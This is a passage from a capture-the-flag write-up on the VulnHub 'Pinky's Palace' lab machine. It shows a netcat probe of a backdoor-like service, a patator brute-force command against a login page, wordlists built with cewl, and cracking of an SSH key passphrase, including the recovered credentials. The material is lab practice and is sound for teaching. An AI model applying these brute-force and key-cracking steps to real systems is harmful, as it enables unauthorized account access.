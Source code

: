 Yeah, I know. Many CLI copy paste. But I just want you to understand how my way was to beat that VM. Anyways. 
SSH is now open, we see also another HTTPd. And on 31337 an unkown service.

```shell
root@kali:~/vulnhub/pinkypalace# nc pinkydb 31337
[+] Welcome to The Daemon [+]
This is soon to be our backdoor
into Pinky's Palace.
=> help
help
```

Hmm :thinking:. Not sure what that is, so let's focus on the other services. The new HTTP service shows us a login page. I created a user list file, standard usernames and guessed ones:
(yes I tested also for SQLi, with no success. If you find a way to SQLi please message me :wink:)

```
root
admin
pinkydb
pinky
palace
```

Brute forcing with rockyou.txt and other wordlists with common passwords had no success. So I remembered my approach [from here](https://capsop.com/itsec/2016/07/24/Skydog-CTF.html#flag-4). There I created a custom wordlist out of a movie script. With `cewl` I created a wordlist based upon the Wordpress website from before. And BINGO! We have a successful hit!

```
root@kali:~/vulnhub/pinkypalace# patator http_fuzz url=http://pinkydb:7654/login.php method=POST 0=users.txt 1=wordlist.txt body="user=FILE0&pass=FILE1" -x ignore:fgrep='Invalid Username or Password!'
10:35:43 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2018-09-07 10:35 CEST
10:35:43 patator    INFO -                                                                              
10:35:43 patator    INFO - code size:clen       time | candidate                          |   num | mesg
10:35:43 patator    INFO - -----------------------------------------------------------------------------
10:35:43 patator    INFO - 302  752:-1         0.003 | pinky:Passione                     |   511 | HTTP/1.1 302 Found
10:35:44 patator    INFO - Hits/Done/Skip/Fail/Size: 1/830/0/0/830, Avg: 1550 r/s, Time: 0h 0m 0s
```

## Getting user

So, password is `Passione`.  After logging if we see a private RSA key and some notes. This looks like a SSH key to login. Let's try it on port 4655, where SSH listens. It has a password, so we have to brute force it first, for that I'm using that tool: [rsakey-cracker](https://github.com/quarantin/rsakey-cracker). As wordlist I use `rockyou.txt`. And we have it: `Passphrase is: secretz101`. 
For the future use I removed the password from the key. 
